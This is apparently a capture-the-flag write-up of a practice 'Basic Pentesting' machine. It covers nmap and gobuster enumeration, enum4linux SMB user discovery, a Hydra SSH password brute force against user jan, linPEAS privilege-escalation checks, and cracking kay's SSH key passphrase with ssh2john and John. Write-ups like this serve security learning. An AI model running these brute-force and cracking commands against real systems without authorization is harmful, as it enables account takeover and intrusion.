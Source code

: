 # Basic Pentestion

## Reconnaisance

Ip Addr : 10.10.26.90:22

## Scanning & Enumeration

* nmap scan for open port

```shell
 # nmap -A -T4 -p- -oN nmap/all_port  10.10.26.90
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-15 21:55 +01
Nmap scan report for 10.10.26.90
Host is up (0.091s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.7
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/15%OT=22%CT=1%CU=41434%PV=Y%DS=2%DC=T%G=Y%TM=5E9776C
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=103%GCD=1%ISR=10A%TI=Z%CI=I%TS=8)OPS(O1=M54DST11NW6%O2=M54DST11NW6%O
OS:3=M54DNNT11NW6%O4=M54DST11NW6%O5=M54DST11NW6%O6=M54DST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M54DNNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m58s, deviation: 2h18m33s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2020-04-15T17:04:02-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-04-15T21:04:02
|_  start_date: N/A

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   92.28 ms 10.8.0.1
2   90.41 ms 10.10.26.90

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 488.23 seconds
```

* gobuster

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.26.90/
```

![dev](img/dev.png)

find /developement
<http://10.10.26.90/development/>

* Smb Enumeration
  
 ```shell
 enum4linux -a 10.10.26.90 |  tee enmu4linux.log
 ```

 found username

 Jan : xxxx
 Kay : xxx
 and we know Jan has a week password [j](j.txt)

## Exploitation

* Hydra Brute force Jan account

```shell
 hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.26.90

```

![password](img/jan.png)
found ar***do as password
jan:ar**do

![ssh-jan](img/ssh-jan.png)

### Priviledge escalation

* Enumerate the machine using linPEAS <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

copy it to the machine

```shell
scp linpeas.sh jan@10.10.26.90:/dev/shm
```

run it and get the result [here](linpeas.txt)

find a password protected ssh key <kay_id_rsa>

* Crack the SSH key with John
  
calculate the hash
  
```shell
/usr/share/john/ssh2john.py  kay_id_rsa  > kay.hash
```

crack it now

```shell
john kay.hash --wordlist=/usr/share/wordlists/rockyou.txt

```

find "beeswax"

and we got kay
![kay-ssh](img/ssh-kay.png)

## Cleaning
